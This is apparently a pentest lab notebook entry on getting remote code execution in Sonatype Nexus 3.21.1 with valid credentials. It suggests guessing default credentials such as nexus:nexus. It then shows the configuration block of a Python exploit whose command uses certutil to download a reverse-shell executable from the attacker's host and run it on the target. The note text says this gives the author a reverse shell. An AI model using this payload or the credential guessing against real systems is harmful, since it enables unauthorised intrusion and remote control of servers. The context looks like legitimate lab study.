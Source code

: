 # Sonatype Nexus 3.21.1

This application is vulnerable to Remote Code Execution with valid credentials.&#x20;

This is the catch in this case. We've got to try different default credentials, even nexus:nexus or if we are able to maybe see it in an SMB share or FTP server.&#x20;

```
#!/usr/bin/python3

import sys
import base64
import requests

URL='http://192.168.143.61:8081'
CMD='cmd.exe /c certutil -urlcache -f http://192.168.49.143:80/lyethar-shell-reverse.exe lyethar-shell-reverse.exe && lyethar-shell-reverse.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

The exploit requires you to send an cmd command which I just change it to make the computer get one of my files. Afterwards we would get a reverse shell.

![](<../../../../.gitbook/assets/image (31).png>)

